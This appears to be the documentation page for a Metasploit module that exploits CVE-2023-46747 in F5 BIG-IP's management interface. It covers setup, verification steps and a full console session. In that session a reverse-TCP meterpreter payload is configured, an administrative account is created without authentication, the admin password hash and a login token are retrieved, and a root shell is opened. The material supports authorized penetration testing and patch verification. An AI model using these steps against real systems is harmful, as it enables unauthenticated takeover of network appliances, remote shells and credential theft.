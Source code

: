 ## Vulnerable Application

### Description

This module exploits a flaw in F5's BIG-IP Traffic Management User Interface (TMUI) that enables an external,
unauthenticated attacker to create an administrative user. Once the user is created, the module uses the new account to
execute a command payload.

Tested against the VMware OVA release of 16.1.2.1-0.0.10 and 17.0.0.1-0.0.4.

### Setup

Download BIGIP-17.0.0.1-0.0.4.ALL-vmware.ova and import it into your desired virtualization software.

The target does not need to be licensed to be vulnerable.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/f5_bigip_tmui_rce_cve_2023_46747`
4. Set the `RHOST`, `PAYLOAD` and payload-related options
5. Do: `run`
6. You should get a shell.

## Targets

### Command

This executes an OS command on the target device.

## Options

## Scenarios

### F5 BIG-IP 17.0.0.1-0.0.4

```
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > set RHOSTS 192.168.159.32
RHOSTS => 192.168.159.32
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > check
[+] 192.168.159.32:443 - The target is vulnerable.
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[+] Admin user was created successfully. Credentials: UyPzjB - qu0k7MxIzIDlvS
[+] Retrieved the admin hash: $6$gquMefr5$HGA8j7xLzHq2cfZOSudg6g6vETPpHthWOSWJtCtYd1sWRoNGCLnAQKbRvQoRm1QgEm8fC3HfH5tLI9KSSr8M10
[*] Obtained login token: 4TAZKYHLZCHPQX3FC47VWNSEUA
[*] Sending stage (24768 bytes) to 192.168.159.32
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.32:35438) at 2023-11-01 16:36:04 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : f5test2.home.lan
OS           : Linux 3.10.0-862.14.4.el7.ve.x86_64 #1 SMP Thu Jul 14 23:41:24 PDT 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > pwd
/var/service/restjavad
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > creds
Credentials
===========

host            origin          service                   public  private                                                                                              realm  private_type        JtR Format    cracked_password
----            ------          -------                   ------  -------                                                                                              -----  ------------        ----------    ----------------
192.168.159.32  192.168.159.32  443/tcp (F5 BIG-IP TMUI)  admin   $6$gquMefr5$HGA8j7xLzHq2cfZOSudg6g6vETPpHthWOSWJtCtYd1sWRoNGCLnAQKbRvQoRm1QgEm8fC3HfH5t (TRUNCATED)         Nonreplayable hash  sha512,crypt  

msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > 
```
